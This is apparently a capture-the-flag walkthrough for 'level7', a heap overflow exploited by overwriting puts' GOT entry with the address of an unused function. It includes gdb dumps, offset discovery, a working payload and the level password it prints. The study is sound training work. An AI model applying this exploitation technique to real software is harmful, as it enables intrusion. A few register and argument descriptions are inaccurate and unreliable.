 # Level7

I dont wanna copy paste the gdb disassembly anymore, the source file in C is included anyway.

The program segfaults without parameters an prints "~~" if 2 params are given. At the same time, it opens the file containing the password of the next level, but don't do anything and close it after printing the "\~~".

There is another unused function, m, that will print the ouput of the buffer and some other insignificant data. The buffer is declared globally, and is the same one that will contain the password in the main.

In the main, the order will be :

1. The file is opened using fopen, then the content is written in the buffer using fgets (with a max read length of 68).
2. puts("~~") is called.
3. The file is closed, and some data is freed.

Since puts is a libc function, we can exploit the GOT (cf level 5) to change the address by the one of the unused m function.

Lets get the addresses we need for later use.

puts :

    (gdb) disas 0x8048400
    Dump of assembler code for function puts@plt:
        0x08048400 <+0>:	jmp    *0x8049928
        0x08048406 <+6>:	push   $0x28
        0x0804840b <+11>:	jmp    0x80483a0
    End of assembler dump.
    (gdb) x 0x8049928
    0x8049928 <puts@got.plt>:	0x08048406

m :

    (gdb) disas m
    Dump of assembler code for function m:
        0x080484f4 <+0>:	push   %ebp
        0x080484f5 <+1>:	mov    %esp,%ebp
        0x080484f7 <+3>:	sub    $0x18,%esp
        0x080484fa <+6>:	movl   $0x0,(%esp)
        0x08048501 <+13>:	call   0x80483d0 <time@plt>
        0x08048506 <+18>:	mov    $0x80486e0,%edx
        0x0804850b <+23>:	mov    %eax,0x8(%esp)
        0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
        0x08048517 <+35>:	mov    %edx,(%esp)
        0x0804851a <+38>:	call   0x80483b0 <printf@plt>
        0x0804851f <+43>:	leave  
        0x08048520 <+44>:	ret    
    End of assembler dump.


Now, let's find the first offset with msf-pattern-create

    [...]
    (gdb) r "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
    Starting program: /home/user/level7/level7 "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"

    Program received signal SIGSEGV, Segmentation fault.
    0xb7eb8aa8 in ?? () from /lib/i386-linux-gnu/libc.so.6

    (gdb) i r
    eax            0x37614136	929120566 <-- 7aA6
    ecx            0x0	0
    edx            0x37614136	929120566 <-- 7aA6
    ebx            0xb7fd0ff4	-1208152076
    esp            0xbffff69c	0xbffff69c
    ebp            0xbffff6c8	0xbffff6c8
    esi            0x0	0
    edi            0x0	0
    eip            0xb7eb8aa8	0xb7eb8aa8
    eflags         0x210286	[ PF SF IF RF ID ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51

    $ msf-pattern_offset -q 6Aa7
    [*] Exact match at offset 20

This time, we didn't overflow EIP but EDX, which is less useful. Let's see if we can do the same with the second argument

    (gdb) r "0123456789" "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
    Starting program: /home/user/level7/level7 "0123456789" "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"

    *** glibc detected *** /home/user/level7/level7: free(): invalid next size (normal): 0x0804a048 ***
    ======= Backtrace: =========
    /lib/i386-linux-gnu/libc.so.6(+0x74f82)[0xb7ea0f82]
    /lib/i386-linux-gnu/libc.so.6(+0x64e55)[0xb7e90e55]
    /lib/i386-linux-gnu/libc.so.6(fopen+0x2b)[0xb7e90e8b]
    /home/user/level7/level7[0x80485d8]
    /lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf3)[0xb7e454d3]
    /home/user/level7/level7[0x8048461]
    ======= Memory map: ========
    08048000-08049000 r-xp 00000000 00:10 12230      /home/user/level7/level7
    08049000-0804a000 rwxp 00000000 00:10 12230      /home/user/level7/level7
    0804a000-0806b000 rwxp 00000000 00:00 0          [heap]
    b7e07000-b7e23000 r-xp 00000000 07:00 17889      /lib/i386-linux-gnu/libgcc_s.so.1
    b7e23000-b7e24000 r-xp 0001b000 07:00 17889      /lib/i386-linux-gnu/libgcc_s.so.1
    b7e24000-b7e25000 rwxp 0001c000 07:00 17889      /lib/i386-linux-gnu/libgcc_s.so.1
    b7e2b000-b7e2c000 rwxp 00000000 00:00 0 
    b7e2c000-b7fcf000 r-xp 00000000 07:00 17904      /lib/i386-linux-gnu/libc-2.15.so
    b7fcf000-b7fd1000 r-xp 001a3000 07:00 17904      /lib/i386-linux-gnu/libc-2.15.so
    b7fd1000-b7fd2000 rwxp 001a5000 07:00 17904      /lib/i386-linux-gnu/libc-2.15.so
    b7fd2000-b7fd5000 rwxp 00000000 00:00 0 
    b7fda000-b7fdd000 rwxp 00000000 00:00 0 
    b7fdd000-b7fde000 r-xp 00000000 00:00 0          [vdso]
    b7fde000-b7ffe000 r-xp 00000000 07:00 17933      /lib/i386-linux-gnu/ld-2.15.so
    b7ffe000-b7fff000 r-xp 0001f000 07:00 17933      /lib/i386-linux-gnu/ld-2.15.so
    b7fff000-b8000000 rwxp 00020000 07:00 17933      /lib/i386-linux-gnu/ld-2.15.so
    bffdf000-c0000000 rwxp 00000000 00:00 0          [stack]

    Program received signal SIGABRT, Aborted.
    0xb7fdd428 in __kernel_vsyscall ()

No luck this time.
But, after digging a bit about how to pass arguments to functions in x86 asm (differently from x64 - I learnt it the hard way), we found out these instructions :

   0x080485b6 <+149>:	mov    %edx,0x4(%esp)
   0x080485ba <+153>:	mov    %eax,(%esp)
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>

Basically we move the value in the edx register to [esp + 4], which is the 1st argument used by strcpy  (dest). Here this is the second strcpy call, that means we can overflow the edx register to pass an address. So the second strcpy call would write the value of the second argument in the address used for the overflow.

Here is how the arguments in our final payload will look like :

argv[0] : 20 padding characters + address of puts (got)
argv[1] : address of m

    $ ./level7 $(python -c "print 'A'*20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")
    5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
    - 1712666299
